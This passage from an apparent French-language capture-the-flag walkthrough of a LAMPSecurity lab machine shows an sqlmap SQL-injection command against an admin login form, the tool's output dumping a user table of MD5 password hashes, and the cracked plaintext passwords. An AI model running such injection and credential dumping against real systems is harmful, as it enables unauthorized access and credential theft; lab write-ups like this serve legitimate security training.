 ... ou encore toutes les données stockées dans la table ```user``` !

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" --dump -D lampsec -T user
--snip--
[23:05:45] [INFO] fetching columns for table 'user' in database 'lampsec'
[23:05:45] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:05:45] [INFO] retrieved: 6
[23:05:46] [INFO] retrieved: user_id
[23:05:47] [INFO] retrieved: user_name
[23:05:49] [INFO] retrieved: user_password
[23:05:52] [INFO] retrieved: user_display
[23:05:55] [INFO] retrieved: user_picture
[23:05:57] [INFO] retrieved: user_jobtitle
[23:06:00] [INFO] fetching entries for table 'user' in database 'lampsec'
[23:06:00] [INFO] fetching number of entries for table 'user' in database 'lampsec'
--snip--
[23:07:29] [INFO] recognized possible password hashes in column 'user_password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: lampsec
Table: user
[5 entries]
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
| user_id | user_name     | user_display       | user_picture | user_jobtitle                 | user_password                    |
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
| 1       | administrator | NULL               | NULL         | NULL                          | dab64765f3d4fc29ced777be274337ea |
| 2       | justin        | Justin Klien Keane | member1.jpg  | Security Researcher           | b6e4e4d617ec2406cea4555a5c40e137 |
| 3       | bob           | Bob Anonymous      | bob_anon.jpg | Privacy Specialist            | 93b542f0c7a6f2279fc94f44b013baf1 |
| 4       | eve           | Evil Eve           | member3.jpg  | Surveillance and Interception | 4c4999ac17adcef1a5a75fab71e5c857 |
| 5       | alice         | Alice Secret       | member4.jpg  | Cryptographer                 | fdfaf065cbbfe6e453229e536924b0f1 |
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
```

Non seulement __SQLMap__ peut identifier et exploiter des injections SQL, mais il est aussi en mesure de lancer des [attaques par dictionnaire](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf), dès lors qu'il identifie des hashs de mots de passe dans une base de données. Avec son dictionnaire par défaut ```/usr/share/sqlmap/txt/wordlist.zip```, SQLMap retrouve les mots de passe de trois utilisateurs : ```invisible``` (eve), ```billybob``` (bob) et ```hacking``` (administrator). Une recherche sur [__CrackStation__](https://crackstation.net/) puis sur [__HashKiller__](https://www.hashkiller.co.uk/md5-decrypter.aspx) permet d'obtenir les mots de passe manquants.
